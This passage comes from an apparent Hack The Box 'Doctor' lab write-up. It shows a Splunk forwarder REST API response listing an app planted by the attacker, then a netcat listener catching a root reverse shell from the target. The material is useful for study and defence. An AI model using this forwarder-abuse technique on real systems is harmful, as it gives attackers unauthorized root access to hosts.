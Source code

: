           <name>nobody</name>
        </author>
        <link href="/servicesNS/nobody/system/apps/local/splunk" rel="list"/>
        <link href="/servicesNS/nobody/system/apps/local/splunk/_reload" rel="_reload"/>
        <link href="/servicesNS/nobody/system/apps/local/splunk" rel="edit"/>
        <link href="/servicesNS/nobody/system/apps/local/splunk" rel="remove"/>
        <link href="/servicesNS/nobody/system/apps/local/splunk/package" rel="package"/>
        <content type="text/xml">
          <s:dict>
            <s:key name="check_for_updates">1</s:key>
            <s:key name="configured">0</s:key>
            <s:key name="core">0</s:key>
            <s:key name="disabled">0</s:key>
            <s:key name="eai:acl">
              <s:dict>
                <s:key name="app">system</s:key>
                <s:key name="can_change_perms">1</s:key>
                <s:key name="can_list">1</s:key>
                <s:key name="can_share_app">1</s:key>
                <s:key name="can_share_global">1</s:key>
                <s:key name="can_share_user">0</s:key>
                <s:key name="can_write">1</s:key>
                <s:key name="modifiable">1</s:key>
                <s:key name="owner">nobody</s:key>
                <s:key name="perms">
                  <s:dict>
                    <s:key name="read">
                      <s:list>
                        <s:item>*</s:item>
                      </s:list>
                    </s:key>
                    <s:key name="write">
                      <s:list>
                        <s:item>*</s:item>
                      </s:list>
                    </s:key>
                  </s:dict>
                </s:key>
                <s:key name="removable">0</s:key>
                <s:key name="sharing">app</s:key>
              </s:dict>
            </s:key>
            <s:key name="install_source_checksum">dea0008a0d34b948ffd5a42534517c06f95b69af</s:key>
            <s:key name="label">splunk</s:key>
            <s:key name="location">/opt/splunkforwarder/etc/apps/splunk</s:key>
            <s:key name="managed_by_deployment_client">0</s:key>
            <s:key name="name">splunk</s:key>
            <s:key name="show_in_nav">1</s:key>
            <s:key name="source_location">/opt/splunkforwarder/etc/apps/splunk</s:key>
            <s:key name="state_change_requires_restart">0</s:key>
            <s:key name="status">installed</s:key>
            <s:key name="visible">0</s:key>
          </s:dict>
        </content>
      </entry>
    </feed>
    ```
6. Start a nc listner to catch the shell.
    ```bash
    kali@kali:~/Desktop/htb/doctor/$ nc -nlvp 9997
    listening on [any] 9997 ...
    connect to [10.10.14.27] from (UNKNOWN) [10.10.10.209] 43842
    root@doctor:/# id
    id